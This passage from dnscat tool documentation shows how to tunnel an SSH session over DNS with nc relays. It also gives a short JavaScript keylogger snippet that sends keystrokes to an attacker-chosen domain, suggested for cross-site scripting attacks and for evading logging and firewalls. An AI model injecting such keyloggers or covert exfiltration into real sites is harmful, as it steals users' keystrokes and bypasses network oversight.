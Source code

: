    dnscat --listen --exec "nc -l -p 1234"

If you connect to that host on port 1234, all data will be forwarded across DNS to the dnscat client.

Second, on the client side, dnscat connects to 192.168.2.100 port 22:

    dnscat --domain skullseclabs.org --exec "nc 192.168.2.100 22"

This connects to 192.168.2.100 on port 22. The input/output will both be sent across DNS back to the dnscat server, which will then send the traffic to whomever is connected on TCP/1234.

Third and finally, we ssh to our socket:

    ssh -p 1234 ron@127.0.0.1

Alternatively, if available you can also use the ssh -o ProxyCommand option which avoids the need for nc on the client:

    ssh -o ProxyCommand="./dnscat --domain skullseclabs.org" root@localhost

One thing to note: at the moment, doing this is slooooow. But it works, and it\'s really, really cool!

### Web keylogger {#web_keylogger}

There is an implementation of dnscat in Javascript (jsdnscat) written by Stefan Penner. It\'s located in the \'samples\' folder of nbtool and conists of two libraries, one for keylogging and the other for dnscat. There are several example HTML files for using these, but it really comes down to these lines:

    <script type='text/javascript' src='js/skullsecurity.all.min.js'></script>
    <script type='text/javascript'>
      SkullSecurity.jsdnscat.config.host = 'yourdomain.com';
      SkullSecurity.keylogger.start(SkullSecurity.jsdnscat.send);
    </script>

Equivalent code can easily be put into a .js file and hosted on your server for easy use with cross-site scripting.

The best reason for using this as opposed to traditional avenues for data exfiltration is to get around logging and firewalls \-- because dnscat will respond with a localhost record to all A and AAAA requests, the computer doesn\'t actually send an HTTP request to the network, yet you still get its data.

## FAQ

-   Q: Is it legal to route traffic through DNS?
-   A: I have no idea. Don\'t abuse servers you don\'t own, though.

-   Q: Why did you write this?
-   A: To prove it could be done.

-   Q: Can I implement my own client?
-   A: Yes, please do! I\'d like to get samples in any language I can. And tell me about it so I can include it (with your permission).

-   Q: Can I write my own server?
-   A: Sure, but if there are any features missing that you want, let me know and maybe I\'ll add it to my version.
